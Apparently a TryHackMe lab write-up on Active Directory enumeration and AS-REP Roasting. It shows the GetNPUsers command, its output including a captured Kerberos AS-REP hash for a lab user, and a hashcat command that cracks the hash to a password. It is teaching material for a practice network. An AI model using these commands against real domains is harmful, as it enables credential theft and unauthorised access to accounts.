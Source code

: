 
## Learning Objectives

- AS-REP Roasting
- Using the `net` command for enumeration among others
- Enumeration using the ActiveDirectory PowerShell module
- Enumeration using PowerSploit’s PowerView module
- Enumeration with BloodHound

##### Scope: `10.211.12.0/24`

`fping -agq 10.211.12.0/24 -N`

~~~
10.211.12.10
10.211.12.20
10.211.12.100
10.211.12.250
~~~

_________

## AS-REP Roasting Attack

- AS-REP Roasting dumps user account hashes that have Kerberos pre-authentication disabled.
- The only requirement is that the “Do not require Kerberos preauthentication” flag `(UF_DONT_REQUIRE_PREAUTH)` is set on the user account.
- Unlike Kerberoasting, these users do not need to be service accounts.

_____

### Phases of AS-REP Roasting

- AS-REP Roasting involves two main steps: enumeration and exploitation. 
- First, identify vulnerable user accounts. 
- Second capture and crack the retrieved AS-REP hashes offline.

#### Phase 1: Enumeration – Identifying Vulnerable Accounts

- In this phase, you identify user accounts within Active Directory that have Kerberos `pre-authentication disabled`.
- Accounts without pre-authentication allow anyone on the network to request a Kerberos ticket (specifically an AS-REP) without first proving their identity.
- As a result, encrypted hashes of the account passwords become exposed and vulnerable to offline attacks.

#### Tools -

###### 1. Rubeus (Windows Only)

A powerful Windows-based tool designed explicitly for Kerberos-related security testing and enumeration. 

Rubeus **automatically** identifies vulnerable accounts and retrieves encrypted AS-REP hashes and doesn't require a username file to be supplied.

###### 2. Impacket's GetNPUsers.py / `impacket-GetNPUsers`

- A python script to enumerate accounts in non-Windows environments.
- To test for the pre-authentication vulnerability, you must supply a `users.txt` file containing usernames.

**Example Command:** 
`GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass`

~~~
This command enumerates usernames listed in users.txt and collects AS-REP hashes for vulnerable accounts, saving them in hashes.txt for offline cracking.
~~~


Output - 

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gerald.burgess doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nigel.parsons doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User guy.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jeremy.booth doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User barbara.jones doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marion.kay doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kathryn.williams doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User danny.baker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gary.clarke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User daniel.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User debra.yates doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jeffrey.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User martin.riley doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User danielle.lee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User douglas.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User danielle.ali doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User jennifer.harding doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User strategos doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User empanadal0v3r doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User drgonz0 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User strate905 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User krbtgtsvc doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:95bcd6b5292ab9095521793f417590e5$3ea4ab98794abf0d929a83f87e7e417abd911b0f91b6c5b6c60779d2b886449ef71936a21816d5f4428a6d0e7258bd16c22e609b963d3e8b7c93a040d82c7a5c673b804d8b999a82562665c3ebf1c2f8231e5bb76618d773a1b4ae8ad8fd5538fad90333e7a7f5fed593d96778920930ff07e8ed04a2715ff8dac72c4792ae2590610217a7743ced2559b031c92624ce49ca764fc2af5fcf4385cd63d621c93bc07da0f1f7ee08f6853ea64fb9f90a31cf2739bf301c9ba99a5d2ad4a46f6dd0086bee0aebab9ec74e600b2f1a6973642c5d3d1770717200af1d08dece16cfb90453fba58291391bec323405e5ef
[-] User rduke doesn't have UF_DONT_REQUIRE_PREAUTH set

```

`hashes.txt` file - 

~~~
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:95bcd6b5292ab9095521793f417590e5$3ea4ab98794abf0d929a83f87e7e417abd911b0f91b6c5b6c60779d2b886449ef71936a21816d5f4428a6d0e7258bd16c22e609b963d3e8b7c93a040d82c7a5c673b804d8b999a82562665c3ebf1c2f8231e5bb76618d773a1b4ae8ad8fd5538fad90333e7a7f5fed593d96778920930ff07e8ed04a2715ff8dac72c4792ae2590610217a7743ced2559b031c92624ce49ca764fc2af5fcf4385cd63d621c93bc07da0f1f7ee08f6853ea64fb9f90a31cf2739bf301c9ba99a5d2ad4a46f6dd0086bee0aebab9ec74e600b2f1a6973642c5d3d1770717200af1d08dece16cfb90453fba58291391bec323405e5ef
~~~

The user account - `asrepuser1` has kerberos preauth disabled, hence we have successfully obtained its hash.
______

#### Phase 2: Exploitation – Cracking Password Hashes and Accessing the Network

- Once encrypted hashes are obtained in the enumeration phase, the next step involves offline cracking. 
- Recovering valid passwords allows authentication as compromised users, granting further access or privilege escalation within the targeted network.


##### Tool - 

###### `hashcat` - 

mode - `18200`

**Example Command:** `hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt`

```
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:95bcd6b5292ab9095521793f417590e5$3ea4ab98794abf0d929a83f87e7e417abd911b0f91b6c5b6c60779d2b886449ef71936a21816d5f4428a6d0e7258bd16c22e609b963d3e8b7c93a040d82c7a5c673b804d8b999a82562665c3ebf1c2f8231e5bb76618d773a1b4ae8ad8fd5538fad90333e7a7f5fed593d96778920930ff07e8ed04a2715ff8dac72c4792ae2590610217a7743ced2559b031c92624ce49ca764fc2af5fcf4385cd63d621c93bc07da0f1f7ee08f6853ea64fb9f90a31cf2739bf301c9ba99a5d2ad4a46f6dd0086bee0aebab9ec74e600b2f1a6973642c5d3d1770717200af1d08dece16cfb90453fba58291391bec323405e5ef:qwerty123!
                                                          
Session..........: hashcat
Status...........: Cracked

```

Password: `qwerty123!`

_____








